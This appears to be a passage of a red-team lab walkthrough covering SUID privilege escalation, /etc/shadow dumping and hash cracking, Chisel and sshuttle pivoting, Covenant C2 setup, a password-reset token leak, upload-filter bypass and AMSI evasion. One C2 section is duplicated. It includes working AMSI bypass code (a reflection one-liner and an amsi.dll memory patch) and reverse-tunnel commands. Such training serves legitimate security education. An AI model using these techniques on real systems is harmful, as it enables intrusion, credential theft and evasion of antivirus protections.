| -------------- | ------------------------------------------------------------ | --------------------------------------------------------- |
| SUID Bit       | User executes the file with permissions of the *file* owner  | -                                                         |
| SGID Bit       | User executes the file with the permission of the *group* owner. | File created in directory gets the same group owner.      |
| Sticky Bit     | No meaning                                                   | Users are prevented from deleting files from other users. |

Besides using Linpeas to find the files with a SUID bit, you can also use a  bash one-liner shown below to search for files with this bit set.

Command: `find / -perm -u=s -type f 2>/dev/null`

Once we have identified a file that we thank may be exploitable, we need to  search for an exploit for it. A helpful resource to search for exploits  on specific applications and programs is GTFOBins, https://gtfobins.github.io/.

An example of an exploit can be found below for a dig SUID.  Exploits may vary between each application and vulnerability as each has its unique ways security researchers have found they can be abused.


If successful, you should now have the same permission levels as the binary you exploited.

# Post Exploitation From the Shadows                            

Now that we have gained a decent foothold onto the network and have a stable shell, we can worry about setting up persistence so that we  don't lose our foothold and gain our foothold again if the machine is  reset or our shell gets terminated. There are many methods for  persistence outlined below are a few examples.

- LD_PRELOAD
- Backdoored binaries
- PAM backdoor
- SSH keys
- Malicious services
- Cronjob
- Credential harvesting

In this room, we will be focusing on credential harvesting  specifically from the shadow file and how to crack passwords offline to  gain long-term account access.

For more information about persistence techniques check out MITRE ATT&CK [TA0003](https://attack.mitre.org/tactics/TA0003/).

------

To begin with our persistence adventures, we will be focusing on dumping the shadow file on a Linux server. The shadow file is located in `/etc/shadow` and contains encrypted passwords and related information, including  usernames, password change date, expiration, etc. We can use this file  to retrieve hashes as an attacker and then attempt to crack the hashes  using an offline hash cracking tool like Hashcat or JohntheRipper.

Since the shadow file is a standard in the Linux kernel to authenticate accounts, you can expect it on every *nix machine you encounter.

To dump the shadow file is simple; once you have root privileges, you need to read the file, and the machine will output the information in  the shadow file. Find an example command below.

Command used: `cat /etc/shadow`


We now have all the account hashes stored by the system. From here, we can take them offline and attempt to crack them in the next task.

# Post Exploitation Crack all the Things

A somewhat important part of red team operations is hash cracking. We can use hashcat or johntheripper to crack a provided hash by comparing  it against a provided wordlist such as rockyou.txt. In this task, we  will be using the power of google colab to crack hashes for us.

From google colaboratory, "Colaboratory, or "Colab" for short, allows you to write and execute Python in your browser" This means that we can take advantage of it with pre-built workspaces to install and run  hashcat on google's cloud infrastructure and crack our hashes with a  high-end GPU.

To begin using colabcat, we will need to identify the Hashcat mode to use against the hashes. The shadow file uses the generic Linux hash `$6$`; this is a sha512crypt, which we can identify as mode 1800. For more  information about hashcat types, check out the hashcat example page, https://hashcat.net/wiki/doku.php?id=example_hashes.

Now we can use the colabcat repo, https://github.com/someshkar/colabcat, to start up a colab instance with the hashcat settings pre-prepared.

**Note:** To use colabcat you will first need a google account.

To begin preparing the instance, you need to follow the prompts and  execute the pre-set commands in each box. Find an example of running  pre-set commands below.


Continue following the prompts to authorize your google account to connect to  the colab instance. The below box is the step at which we can change the commands to crack our hashes.


To begin cracking your hash, place the shadow hash inside of `/root/.hashcat/hashes/shadow.hash`. You can then specify the wordlist you would like to use to crack the hash; we recommend using rockyou.txt, to begin.

# Pivoting Digging a tunnel to nowhere                            

Now that you have gained root access to L-SRV01, you need to identify where to go next. You know there are no other external machines in  scope, so you decide to move into the internal network. To gain access  to the internal subnet, you need to perform what is known as pivoting.

In a well-maintained network, often referred to as a "Segmented  Network," there are specific rules in place preventing users from  accessing certain parts of the Internal LAN (ex. The Workstation Subnet  should not be able to access the Server Subnet). We will need to "pivot" from an already compromised server using a SOCKs server or other means  like port forwarding to access different network resources.

There are several tools outlined below that can help us in pivoting.

- sshuttle
- Chisel
- Ligolo
- Metasploit autoroute

In this task, we will be focusing on both Chisel and sshuttle, each offering unique ways to approach pivoting.

The first tool that we will be looking at is Chisel. From the Chisel GitHub, "Chisel is a fast TCP/UDP tunnel, transported over HTTP, secured via SSH. Single executable, including both client and server.  Written in Go (Golang). Chisel is mainly useful for passing through  firewalls, though it can also be used to provide a secure endpoint into  your network."

From the Chisel GitHub, below is an overview of chisel architecture.


To begin using Chisel, we must first download the tool. If you utilize the stable release or docker, you will not need to download any  dependencies. If you compile from source, you will need to install a few dependencies outlined on their GitHub. There are three common ways of  obtaining the tool, outlined below.

- Stable release: https://github.com/jpillora/chisel/releases
- Docker: `docker run --rm -it jpillora/chisel --help`
- Source: `go get -v [github.com/jpillora/chisel](<http://github.com/jpillora/chisel>)`

To set up the Chisel server on a Windows machine, you will need to get the Windows binary and vice versa.

To create a SOCKs server with Chisel, you will only need two commands ran  on the target and the attacking machine, outlined below.

On the attacking machine: `./chisel server -p 8000 --reverse`

On the target machine: `./chisel client <SERVER IP>:8000 R:socks`

Now that we have a SOCKs server set up, we need to interpret and  manage these connections. This is where proxychains come in. Proxychains allows us to connect to the SOCKs server and route traffic through the  proxy in the command line. To add the SOCKs server to proxychains, you  will need to edit `/etc/proxychains.conf`. You can see an example configuration below.


You will need to add the following line to the configuration file: `socks5 127.0.0.1 1080`

To use the proxy, you will need to prepend any commands you want to route  through the proxy with proxychains. An example usage can be found below.

Example usage: `proxychains curl http://<IP>`

The second tool we will be looking at is sshuttle. Sshuttle is unique in  its approaches to pivoting because all of its techniques are done  remotely from the attacking machine and do not require the configuration of proxychains. However, a few of the disadvantages of sshuttle are  that it will only work if there is an ssh server running on the machine, and it will not work on Windows hosts. You can download sshuttle from  GitHub, https://github.com/sshuttle/sshuttle

Using sshuttle is relatively easy and only requires one command. For sshuttle to work, you only need to specify one parameter, -r . With this  parameter, you will specify the user and target like you would for a  standard ssh connection. You will also need to specify the CIDR range of the network; this does not require a parameter. Find an example of  syntax below.

Syntax: `sshuttle -r USER@MACHINE_IP 0.0.0.0/0`

For more information about sshuttle and how to use it, check out the documentation, https://sshuttle.readthedocs.io/en/stable/overview.html.

# Command and Control Command your Foes and Control your Friends                            

From scanning the internal network, we know that the rest of the network is Windows  hosts. When in an engagement, red teams will often utilize a C2 server as a base of operations to help operationalize payloads and  maintain access using modules. We will be setting up our C2 server and  getting familiar with its operations before moving on to attacking the  rest of the network.

We can use a command and control server to organize users and  deploy modules or tasks on a compromised device. Rather than using  reverse shells and payloads, you can use a stager and listeners with a C2 server to help a red team through an engagement. Throughout this walkthrough, we will use the [Covenant](https://github.com/cobbr/Covenant), developed by Cobbr and the SpectreOps Team. If you prefer to use another C2 framework like Empire or Cobalt Strike, you can use them; however, the modules and stagers may be different than shown.

From the Covenant GitHub, "Covenant is a .NET command and control  framework that aims to highlight the attack surface of .NET, make the  use of offensive .NET tradecraft easier, and serve as a collaborative  command and control platform for red teamers."

For more information about Covenant, check out the Covenant GitHub wiki, https://github.com/cobbr/Covenant/wiki

The Covenant installation is relatively straightforward, with a few quirks  and areas that may need troubleshooting. The installation requires two  separate central installs: .NET Core SDK and downloading Covenant  itself.

To begin setting up Covenant, we will begin with  installing the .NET Core SDK. Covenant requires .NET Core SDK 3.1.0. You can download the SDK from either the .NET downloads page or adding the  .NET repositories and downloading via apt.

For more information about downloading via the downloads page, check out this link, https://dotnet.microsoft.com/download/dotnet/3.1.

For more information about downloading via the repositories, check out this link, https://docs.microsoft.com/en-us/dotnet/core/install/linux-ubuntu

Follow along with either of the methods and install .NET Core SDK 3.1.0. This  will be the utility we use to build and run Covenant.

Once you have the SDK installed, you can clone the Covenant repository from GitHub. Find an example below.

Command used: `git clone --recurse-submodules https://github.com/cobbr/Covenant`

Since Covenant is written entirely in .NET Core, all dependencies are already handled when building with the SDK.

Now that both the SDK and Covenant are installed, we can start up Covenant for the first time. Covenant will start on localhost port  7443. Find example syntax below.

Command used: `sudo ./dotnet run --project /opt/Covenant/Covenant`

Once you navigate to [127.0.0.1:7443](http://127.0.0.1:7443/) you will be greeted with a user creation screen. Create a user and sign in  to Covenant. Find an example of the sign-in page below.


If successfully signed in, you should be met with a dashboard like the one shown below.


# Command and Control Bug on the Wire                            

Now that we have Covenant set up and signed in, we can begin covering the basics of operating and creating a listener with Covenant. This  will be helpful later when you get onto a Windows box and deploy a grunt quickly.

When operating with Covenant, there are four main stages: creating a  listener, generating a stager, deploying a grunt, utilizing the grunt.  All stages of operation can already be done using other tools like  MSFVenom, Netcat, Metasploit, etc. however, Covenant gives you a way to  operationalize them all under one platform allowing for easier  management and collaborative operations.

Covenant is an extensive and diverse command and control framework with many  different functionalities. We will only be covering the basics of  operating with Covenant. For more information, check out the SpecterOps  blog, https://posts.specterops.io/, and the SoCon talk on "Operating with Covenant" by Ryan Cobb and Justin Bui https://www.youtube.com/watch?v=oN_0pPI6TYU.

The first step in operating with Covenant is to create a listener.  Listeners are built off profiles; you can think of profiles like HTTP requests/pages that will serve as the channel that will handle all C2  traffic. There are four default profiles that Covenant comes with,  outlined below.

- `CustomHttpProfile` Custom profile that does not require any cookies.
- `DefaultBridgeProfile` Default profile for a C2 bridge.
- `DefaultHttpProfile` Default HTTP profile.
- `TCPBridgeProfile` Default TCP profile for a C2 bridge.

Covenant offers an easy way of editing the listeners along with a GUI. There are many parameters present; we will only be going over a  quick overview of each parameter outlined below.


- `Name` Name of profile to be used throughout the interface.
- `Description` Description of profile and its use cases.
- `MessageTransform` Specify how data will be transformed before being placed in other parameters. 
- `HttpUrls` list of URLs the grunt can callback to.
- `HttpRequestHeaders` List of header pairs (name/value) that will be sent with every HTTP request.
- `HttpResponseHeaders` List of header pairs (name/value) that will be sent with every HTTP response.
- `HttpPostRequest` Format of data when a grunt posts data back to the profile.
- `HttpGetResponse` HTTP response when a grunt GETs data to the listener.
- `HttpPostResponse` HTTP response when a grunt POSTs data to the listener.

We will be going further in-depth with editing and creating profiles in Task 26.

Once you have decided what profile you would like to use, we can begin creating the listener. We recommend using the *DefaultHttpProfile*, to start with, but we will be changing this in later tasks when dealing with AV evasion.

To create a listener, navigate to the *Listeners* tab from the side menu and select *Create Listener*.

You will see several options to edit; each option is outlined below.

- `Name` (optional) will help to identify different listeners.
- `BindAddress` Local address listener will bind on, usually `0.0.0.0`.
- `BindPort`  Local port listener will bind on.
- `ConnectPort` Port to callback to, suggested to set to `80`, `8080`, or `8888`.
- `ConnectAddresses` Addresses for the listener to callback to, hostname portion of the `URL`.
- `URLs` Callback URLs the grunt will be connected directly back to.
- `UseSSL` Determines whether or not the listener uses `HTTP` or `HTTPS`.
- `SSLCertificate` Certificate used by the listener if SSL is set to true.
- `SSLCertificatePassword` Password being used by the `SSLCertificate`.
- `HttpProfile` Profile used by the listener and grunt to determine communication behavior.

To create a basic listener for this network we only suggest editing the `Name`, `ConnectPort`, and `ConnectAddresses`

Once created, the listener should appear within the Listeners tab. You can now start and stop the listener as needed.


# Command and Control Bug on the Wire                            

Now that we have Covenant set up and signed in, we can begin covering the basics of operating and creating a listener with Covenant. This  will be helpful later when you get onto a Windows box and deploy a grunt quickly.

When operating with Covenant, there are four main stages: creating a  listener, generating a stager, deploying a grunt, utilizing the grunt.  All stages of operation can already be done using other tools like  MSFVenom, Netcat, Metasploit, etc. however, Covenant gives you a way to  operationalize them all under one platform allowing for easier  management and collaborative operations.

Covenant is an extensive and diverse command and control framework with many  different functionalities. We will only be covering the basics of  operating with Covenant. For more information, check out the SpecterOps  blog, https://posts.specterops.io/, and the SoCon talk on "Operating with Covenant" by Ryan Cobb and Justin Bui https://www.youtube.com/watch?v=oN_0pPI6TYU.

The first step in operating with Covenant is to create a listener.  Listeners are built off profiles; you can think of profiles like HTTP requests/pages that will serve as the channel that will handle all C2  traffic. There are four default profiles that Covenant comes with,  outlined below.

- `CustomHttpProfile` Custom profile that does not require any cookies.
- `DefaultBridgeProfile` Default profile for a C2 bridge.
- `DefaultHttpProfile` Default HTTP profile.
- `TCPBridgeProfile` Default TCP profile for a C2 bridge.

Covenant offers an easy way of editing the listeners along with a GUI. There are many parameters present; we will only be going over a  quick overview of each parameter outlined below.


- `Name` Name of profile to be used throughout the interface.
- `Description` Description of profile and its use cases.
- `MessageTransform` Specify how data will be transformed before being placed in other parameters. 
- `HttpUrls` list of URLs the grunt can callback to.
- `HttpRequestHeaders` List of header pairs (name/value) that will be sent with every HTTP request.
- `HttpResponseHeaders` List of header pairs (name/value) that will be sent with every HTTP response.
- `HttpPostRequest` Format of data when a grunt posts data back to the profile.
- `HttpGetResponse` HTTP response when a grunt GETs data to the listener.
- `HttpPostResponse` HTTP response when a grunt POSTs data to the listener.

We will be going further in-depth with editing and creating profiles in Task 26.

Once you have decided what profile you would like to use, we can begin creating the listener. We recommend using the *DefaultHttpProfile*, to start with, but we will be changing this in later tasks when dealing with AV evasion.

To create a listener, navigate to the *Listeners* tab from the side menu and select *Create Listener*.

You will see several options to edit; each option is outlined below.

- `Name` (optional) will help to identify different listeners.
- `BindAddress` Local address listener will bind on, usually `0.0.0.0`.
- `BindPort`  Local port listener will bind on.
- `ConnectPort` Port to callback to, suggested to set to `80`, `8080`, or `8888`.
- `ConnectAddresses` Addresses for the listener to callback to, hostname portion of the `URL`.
- `URLs` Callback URLs the grunt will be connected directly back to.
- `UseSSL` Determines whether or not the listener uses `HTTP` or `HTTPS`.
- `SSLCertificate` Certificate used by the listener if SSL is set to true.
- `SSLCertificatePassword` Password being used by the `SSLCertificate`.
- `HttpProfile` Profile used by the listener and grunt to determine communication behavior.

To create a basic listener for this network we only suggest editing the `Name`, `ConnectPort`, and `ConnectAddresses`

Once created, the listener should appear within the Listeners tab. You can now start and stop the listener as needed.


# Command and Control The Blood Oath                            

Now that we have a listener in Covenant, we can create a launcher to  deploy a grunt. Again, this will be helpful later when you get onto a  Windows box and need to deploy a grunt quickly.

From the Covenant GitHub, "Launchers are used to generate, host, and  download binaries, scripts, and one-liners to launch new Grunts."

There are ten different launchers to choose from within Covenant,  each launcher will have its requirements, and some may not be supported  on modern operating systems. Launcher types are outlined below.

- `Binary` Generates a custom binary to launch grunt, does not rely on a system binary.
- `Shellcode` Converts binary to shellcode using donut, https://github.com/TheWover/donut
- `PowerShell` Generates PowerShell code to launch a grunt using `powershell.exe`.
- `MSBuild` Generates an MSBuild XML file to launch a grunt using `msbuild.exe`, https://lolbas-project.github.io/lolbas/Binaries/Msbuild/
- `InstallUtil` Generates an InstallUtil XML file to launch a grunt using `installutil.exe`, https://lolbas-project.github.io/lolbas/Binaries/Installutil/
- `Mshta` Generates an HTA file to launch a grunt using `mshta.exe`, https://lolbas-project.github.io/lolbas/Binaries/Mshta/
- `Regsrv32` Generates an SCT file to launch a grunt using `regsrv32.exe`, https://lolbas-project.github.io/lolbas/Binaries/Regsvr32/
- `Wmic` Generates an XSL file to launch a grunt using `wmic.exe`, https://lolbas-project.github.io/lolbas/Binaries/Wmic/
- `Cscript` Generate a JScript file to launch a grunt using `cscript.exe`, https://lolbas-project.github.io/lolbas/Binaries/Cscript/
- `Wscript` Generate a JScript file to launch a grunt using `wscript.exe`, https://lolbas-project.github.io/lolbas/Binaries/Wscript/

There are several options for each launcher, with some launchers having  specific options. For this task, we will be focusing on the binary  launcher and its options. The configuration options are outlined below.


- `Listener` Listener the grunt will communicate with.
- `ImplantTemplate` Type of implant launcher will use.
- `DotNetVersion` .NET version launcher will use, dependent on `ImplantTemplate`.
- `Delay` Time grunt will sleep in-between callbacks. A larger delay can aid in stealthy communications.
- `JitterPercent` Percent of variability in `Delay`.
- `ConnectAttempts` Amount of times grunt will attempt to connect back to the server before quitting.
- `KillDate` Date specified grunt will quit and stop calling back.

To create a basic launcher for this network, we only suggest editing the `Listener` and `ImplantTemplate`


Once created, the launcher will be downloaded or output a  one-liner that can be copied. You can then use the launcher as needed to deploy grunts.


To deploy a grunt, you will only need to transfer your launcher to your  target machine and execute the payload using your preferred method; this will change based on what launcher you decide to use.

Once executed, the grunt should check back into the server and appear within the *Grunt* tab.

**Note:** This is only an example of executing a grunt; you will not need to execute a grunt until later tasks.


If you navigate to the grunt to interact with it, you will be given an  interaction menu. From here, you can remotely control the grunt and  execute shell commands and modules. This will be covered further  in-depth in Task 29.


# Command and Control We ran out of Halo and YAML references...                            

A large part of operating with Covenant is task usage.  Covenant, by default, does not come with a large number of tasks/modules to choose from like other C2 frameworks like Empire and PoshC2. This means that we will need to  create our own tasks of tools that we want to use within Covenant.  Luckily for us, Covenant is built off .NET and C#, making it easy to  convert any C# code into a task.

For this task, we will be converting SharpEDRChecker into a Covenant task; this will later be used in Task 36.

Since Covenant v0.5, the way that the Covenant backend intakes and parses tasks has changed. Covenant now utilizes YAML files to define tasks and task data. From the YAML website, "YAML is a  human-friendly data serialization standard for all programming  languages." This makes it easy for developers and operators to weaponize and integrate tooling into Covenant.

Find an outline below of rules you need to have in mind when building tasks to ensure that your task integrates with the grunt.

- Define a class called `Task`
- Define a method called `Execute`
- Return a string

We will begin by using an example template that we can later modify and add references to. Find an example YAML template for Covenant below.

```yaml
- Name: Example
  Aliases: []
  Description: Example task for Covenant
		Name: Tryhackme 
		Handle: THM_User
		Link: <https://twitter.com/RealTryHackMe>
  Help: 
  Language: CSharp
  CompatibleDotNetVersions:
  - Net35
  - Net40
  Code: |
	public static class Task {
	    public static string Execute() {
	        return "Hello Covenant!";
	    }
	} 
```

The above is a basic template that we can use to get the basic structure of our task down. Find an explanation of each YAML tag below.

- `Name` Name of the task in Covenant UI.
- `Aliases` Aliases or shortcuts for the task.
- `Description` Description of the task in Covenant UI.
- `Language` Language the task source code is written in.
- `CompatibleDotNetVersions` Versions of .NET the source code will run on.
- `Code` Source code of task.

We have a basic structure for our task data, but our task  will still not work. Covenant uses .NET; we need to define our reference assemblies that .NET will use to interpret our code and provide basic  functionality. Find an example YAML template for reference assemblies below.

```yaml
 ReferenceAssemblies:
    - Name: mscorlib.dll
      Location: net35\\mscorlib.dll
      DotNetVersion: Net35
    - Name: System.dll
      Location: net35\\System.dll
      DotNetVersion: Net35
    - Name: System.Core.dll
      Location: net35\\System.Core.dll
      DotNetVersion: Net35
	    - Name: mscorlib.dll
      Location: net40/mscorlib.dll
      DotNetVersion: Net40
    - Name: System.dll
      Location: net40/System.dll
      DotNetVersion: Net40
    - Name: System.Core.dll
      Location: net40/System.Core.dll
      DotNetVersion: Net40 
```

Depending on what project we  are working on and what assemblies it uses will depend on how many and  what reference assemblies we add to this template. For our example task, we will only need to add basic assemblies found in the template above.

This method of adding reference assemblies can also be used to add reference sources; this is how we can add external C# code. We will be covering  this in more depth later in this task.

We can add together the above YAML to create a final example template that we can use to test our task source code. Find the YAML template below.


```yaml
- Name: Example
  Aliases: []
  Description: Example task for Covenant
      Name: Tryhackme 
      Handle: THM_User
      Link: <https://twitter.com/RealTryHackMe>
  Help: 
  Language: CSharp
  CompatibleDotNetVersions:
  - Net35
  - Net40
  Code: |
	public static class Task {
	    public static string Execute() {
	        return "Hello Covenant!";
	    }
	}
TaskingType: Assembly
UnsafeCompile: false
TokenTask: false
Options: []
ReferenceAssemblies:
	- Name: mscorlib.dll
	Location: net35\\mscorlib.dll
	DotNetVersion: Net35
	- Name: System.dll
	Location: net35\\System.dll
	DotNetVersion: Net35
	- Name: System.Core.dll
	Location: net35\\System.Core.dll
	DotNetVersion: Net35
	- Name: mscorlib.dll
	Location: net40/mscorlib.dll
	DotNetVersion: Net40
	- Name: System.dll
	Location: net40/System.dll
	DotNetVersion: Net40
	- Name: System.Core.dll
	Location: net40/System.Core.dll
	DotNetVersion: Net40
EmbeddedResources: []
ReferenceAssemblies: []
EmbeddedResources: [] 
```

You can add this YAML file under `Covenant/Covenant/Data/Tasks/`. If we rebuild and run Covenant, our newly created task should appear within the UI and can be used with any grunts now.

Now that we have a basic task working, we can attempt to convert  SharpEDRChecker to Covenant. This process is not as hard as it seems and is fully outlined below.

First, we will want to place the entire SharpEDRChecker source code repository in `Covenant/Covenant/Data/ReferenceSourceLibraries/`. This will allow Covenants backend to integrate and parse the source code and references of the tool.

You can also import PowerShell scripts or commands using the PowerShell and PowerShellImport tasks along with creating your own tasks.

# Web App Exploitation Hide yo' Kids, Hide yo' Wives, Hide yo' Tokens                            

Now that we have access to the internal network and have identified a new target, S-SRV01. We  know that S-SRV01 has an open web server that we can look at to begin  our attack.

We have a few credentials that we can try as well as a username and  username scheme that we can use to attempt to gain access to the  website.

Looking through the web app, we see a password reset and a valid  username. We can poke at the web app to identify vulnerabilities that we can exploit to gain access to the webserver.

Password resets will typically utilize tokens to keep track of users. They will authenticate a reset request as it is sent. The web app will  send the token privately when a reset is requested. Sometimes a reset  can be misconfigured and leak the token used to spoof a user and reset a controlled user's password. We will be covering an example of this  vulnerability along with the vulnerable source code below.

To understand this vulnerability, we can begin by looking at the  source code behind the vulnerability. All code below is performed  server-side; however, testers can find the token by looking through  client-side storage.

```
db.findOne({ email:emailAddress }, function(err, doc) {
      if(!doc){
   return res.send('Email address not in our system');
      }else{
   var secret = doc.password + '-' +doc.createdTime;
          var payload = {
              id: doc._id,
              email: doc.email
          };
         var token = jwt.encode(payload, secret);
   res.json({
       resettoken: token,
       status: 'Success'
   });
   res.end(); 
   }
  });
```

The specific part of the code that is vulnerable is when the `resettoken` is sent via JSON. This will leak the token to client-side storage. Find the specific code block below.

```
res.json({
 resettoken: token,
 status: 'Success'
});
```

To exploit this, we can utilize Chrome and/or Firefox developer tools.  Responses from the web server can be in the form of a cookie or a JSON token stored in client-side storage.


You can find the token under either *Application* for a cookie or *Network* for a JSON token.


Once you have retrieved the token from the JSON response or cookie, you can submit it within the URL query under *?token*.

It is important to note that each company or webserver will handle resets  and tokens differently. Some may opt for a JWT solution; others may  prefer a local database solution; it all depends on the developers  themselves, and vulnerabilities may change depending on how the  server-side code is written.

# Web App Exploitation Thanks, I'll let myself in.                            

Now that we have successful authentication to the web app we know  that we have an upload page, however, from code analysis the page uses  client-side filtering meaning we can only upload images.  We can bypass  these filters using BurpSuite.

From GeekforGeeks, client-side filtering is, "These are the types of  filter checks present in the browser itself. When the user types an  input, the input is verified by the client-side filters. If the data  entered by the user is valid, the input is accepted else an error is  thrown depending on what wrong input the user has typed."

There are four easy ways to bypass a client-side upload filter:

1. Turn off JavaScript in your browser - this will work provided the  site doesn't require JavaScript in order to provide basic functionality. If turning off JavaScript completely will prevent the site from working at all then one of the other methods would be more desirable;  otherwise, this can be an effective way of completely bypassing the  client-side filter.

2. Intercept and modify the incoming page. Using Burpsuite, we can  intercept the incoming web page and strip out the Javascript filter  before it has a chance to run. The process for this will be covered  below.

3. Intercept and modify the file upload. Where the previous method  works the webpage is loaded, this method allows the web page to load as  normal but intercepts the file upload after it's already passed (and  been accepted by the filter). Again, we will cover the process of using  this method in the course of the task.

   before

4. Send the file directly to the upload point. Why use the webpage with  the filter, when you can send the file directly using a tool like `curl`? Posting the data directly to the page which contains the code for  handling the file upload is another effective method for completely  bypassing a client-side filter. We will not be covering this method in  any real depth in this tutorial, however, the syntax for such a command  would look something like this: `curl -X POST -F "submit=<value>" -F "<file-parameter>=@<path-to-file>" <site>`. To use this method you would first aim to intercept a successful upload (using Burpsuite or the browser console) to see the parameters being  used in the upload, which can then be slotted into the above command.

To help us identify the client-side filtering and ways we can bypass  it we can perform code analysis. Taking a look at the source code below, we see that it is using a basic JavaScript function to check for the  MIME type of files.

<script> windows.onload = function() {  var upload = document.getElementbyID("fileToUpload");  upload.value="";  upload.addEventListener("change",function(event) {   var file = this.files[0];   if (file.type != "imge/jpeg") {    upload.value="";    alert("dorkus storkus server bork");   }  }); };</script>

In this code, we can see that the filter is using a whitelist to exclude any MIME type that isn't `image/jpeg`.

Our next step is to attempt a file upload -- as expected, if we choose a  JPEG, the function accepts it. Anything else and the upload is rejected.


Having established this, let's start [Burpsuite](https://blog.tryhackme.com/setting-up-burp/) and reload the page. We will see our own request to the site, but what we  really want to see is the server's response, so right-click on the  intercepted data, scroll down to "Do Intercept", then select "Response  to this request":


When we click the "Forward" button at the top of the window, we will then  see the server's response to our request. Here we can delete, comment  out, or otherwise break the JavaScript function before it has a chance  to load. 


Having deleted the function, we once again click "Forward" until the site has  finished loading, and are now free to upload any kind of file to the  website.


It's worth noting here that Burpsuite will not, by default,  intercept any external Javascript files that the web page is loading. If you need to edit a script that is not inside the main page is loaded,  you'll need to go to the "Options" tab at the top of the Burpsuite  window, then under the "Intercept Client Requests" section, edit the  condition of the first line to remove `^js$|`.


For more information on file upload vulnerabilities check out '[Upload Vulnerabilities](https://tryhackme.com/room/uploadvulns)' by MuirlandOracle.

You can now attempt to upload your launcher or other payloads to the server but you might notice that when trying to execute them they will fail  even if they are properly uploaded. This is because there may be some  kind of AV or EDR solution active on the box. Move on to the next tasks to learn  about AV evasion and how we can successfully pop a shell on the server.

# AV Evasion Basically a joke itself....                            

Note: Before moving on with AV evasion please read the entire section's notes and tasks. This section  contains multiple methods and techniques that you can mix and match to  reach the end goal of evading anti-virus.

Now that we can upload a file, we notice that our shells are killed or fail at uploading because AV catches them. In the following six tasks, we will be covering the vast  topic of AV evasion and how it can be used in conjunction with C2  frameworks like Covenant and offensive tooling. The following tasks  compound each other; one task alone will not be enough to evade  detections itself. You will need to combine many techniques shown until  you have successfully written or created a clean payload/tool. To begin  bypassing EDR solutions, we need to understand our first enemy, AMSI.

The Anti-Malware Scan Interface (AMSI) is a PowerShell security  feature that will allow any applications or services to integrate into  antimalware products. AMSI will scan payloads and scripts before  execution inside of the runtime. From Microsoft, "The Windows  Antimalware Scan Interface (AMSI) is a versatile interface standard that allows your applications and services to integrate with any antimalware product that's present on a machine. AMSI provides enhanced malware  protection for your end-users and their data, applications, and  workloads."

For more information about AMSI, check out the Windows docs, https://docs.microsoft.com/en-us/windows/win32/amsi/

Find an example of how data flows inside of Windows security features below.




AMSI will send different response codes based on the results of its scans. Find a list of response codes from AMSI below.

- AMSI_RESULT_CLEAN = 0
- AMSI_RESULT_NOT_DETECTED = 1
- AMSI_RESULT_BLOCKED_BY_ADMIN_START = 16384
- AMSI_RESULT_BLOCKED_BY_ADMIN_END = 20479
- AMSI_RESULT_DETECTED = 32768

AMSI is fully integrated into the following Windows components.

- User Account Control, or UAC
- PowerShell
- Windows Script Host (wscript and cscript)
- JavaScript and VBScript
- Office VBA macros

AMSI is instrumented in both  System.Management.Automation.dll and within the CLR itself. When inside  the CLR, it is assumed that Defender is already being instrumented; this means AMSI will only be called when loaded from memory.

We can look at what PowerShell security features physically look like and are written using InsecurePowerShell, https://github.com/PowerShell/PowerShell/compare/master...cobbr:master maintained by Cobbr. InsecurePowerShell is a GitHub repository of PowerShell with  security features removed; this means we can look through the compared  commits and identify any security features. AMSI is only instrumented in twelve lines of code under `src/System.Management.Automation/engine/runtime/CompiledScriptBlock.cs`. Find the C# code used to instrument AMSI below.

```powershell
var scriptExtent = scriptBlockAst.Extent;
 if (AmsiUtils.ScanContent(scriptExtent.Text, scriptExtent.File) == AmsiUtils.AmsiNativeMethods.AMSI_RESULT.AMSI_RESULT_DETECTED)
 {
  var parseError = new ParseError(scriptExtent, "ScriptContainedMaliciousContent", ParserStrings.ScriptContainedMaliciousContent);
  throw new ParseException(new[] { parseError });
 }

 if (ScriptBlock.CheckSuspiciousContent(scriptBlockAst) != null)
 {
  HasSuspiciousContent = true;
 }
```

Third-parties can also instrument AMSI in their products using the methods outlined below.

- AMSI Win32 API, https://docs.microsoft.com/en-us/windows/win32/amsi/antimalware-scan-interface-functions
- AMSI COM Interface, https://docs.microsoft.com/en-us/windows/win32/api/amsi/nn-amsi-iamsistream

For more information about AMSI integration in third-party products, check out this Microsoft article, https://docs.microsoft.com/en-us/windows/win32/amsi/dev-audience

In the next task, we will look at how we can utilize PowerShell and C# to bypass AMSI.

# AV Evasion THEY WONT SEE ME IF I YELL!                            

Now that we understand the basics of AMSI and how its instrumented, we can begin bypassing AMSI using PowerShell and C#.

There are a large number of bypasses for AMSI available, a majority  written in PowerShell and C#. Find a list of common bypasses below.

- Patching amsi.dll
- Amsi ScanBuffer patch
- Forcing errors
- Matt Graeber's Reflection, https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/
- PowerShell downgrade

For more information about the variety of bypasses available, check out this GitHub repo, https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell

We will be looking at the Matt Graeber reflection method as well as patching amsi.dll.

The first bypass we will be looking at utilizes native PowerShell reflection to set the response value of AMSI to `$null`. Find the PowerShell code written by Matt Graeber below.

```
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

The second method we will be looking at is patching amsi.dll written in  PowerShell. This bypass is modified by BC-Security inspired by Tal  Liberman, https://github.com/BC-SECURITY/Empire/blob/master/lib/common/bypasses.py. RastaMouse also has a similar bypass written in C# that uses the same technique, https://github.com/rasta-mouse/AmsiScanBufferBypass/blob/main/AmsiBypass.cs.The bypass will identify DLL locations and modify memory permissions to return undetected AMSI response values.

```
$MethodDefinition = "

    [DllImport(`"kernel32`")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

    [DllImport(`"kernel32`")]
    public static extern IntPtr GetModuleHandle(string lpModuleName);

    [DllImport(`"kernel32`")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
";

$Kernel32 = Add-Type -MemberDefinition $MethodDefinition -Name 'Kernel32' -NameSpace 'Win32' -PassThru;
$ABSD = 'AmsiS'+'canBuffer';
$handle = [Win32.Kernel32]::GetModuleHandle('amsi.dll');
[IntPtr]$BufferAddress = [Win32.Kernel32]::GetProcAddress($handle, $ABSD);
[UInt32]$Size = 0x5;
[UInt32]$ProtectFlag = 0x40;
[UInt32]$OldProtectFlag = 0;
[Win32.Kernel32]::VirtualProtect($BufferAddress, $Size, $ProtectFlag, [Ref]$OldProtectFlag);
$buf = [Byte[]]([UInt32]0xB8,[UInt32]0x57, [UInt32]0x00, [Uint32]0x07, [Uint32]0x80, [Uint32]0xC3); 

[system.runtime.interopservices.marshal]::copy($buf, 0, $BufferAddress, 6);
```

